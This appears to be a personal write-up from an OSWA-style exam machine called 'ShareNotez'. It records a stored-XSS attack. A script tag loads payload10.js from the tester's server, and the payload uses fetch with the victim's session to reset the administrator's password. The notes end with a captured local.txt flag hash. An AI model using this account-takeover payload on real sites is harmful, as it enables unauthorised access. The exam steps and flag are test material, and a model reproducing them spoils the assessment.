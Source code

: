 as found in the `app.js`
![[ss-20250919-OSWA-Exam-ShareNotez-pic19.png]]
`payload10.js`
```js
fetch("https://192.168.62.62:8443/api/me/password", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded"
  },
  body: "password=adminxss",
  credentials: "include"
});
```
sending payload with 
```bash
<script src="http://192.168.49.62:8000/payload10.js"></script>
```
first `200` error looks like success
![[ss-20250919-OSWA-Exam-ShareNotez-pic20.png]]
tested new login credentials and was able to login with `test:adminxss` which are the credentials that the fetch changed
![[ss-20250919-OSWA-Exam-ShareNotez-pic21.png]]
what the whole `burp` request looks like after it works 
![[ss-20250919-OSWA-Exam-ShareNotez-pic22.png]]
reported the working `payload10.js` and now waiting to see if it gets executed
![[ss-20250919-OSWA-Exam-ShareNotez-pic23.png]]
### local.txt
reverted the machine, reutilized `payload10.js` and reported it, after reported and the hit was seen on my `python3` server was able to login as `adminsitrator:adminxss`
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic25.png]]
```bash
1e13aa9ea957b04c1053043b67eb2645
```
![[ss-20250919-OSWA-Exam-ShareNotez-local.txt-pic24.png]]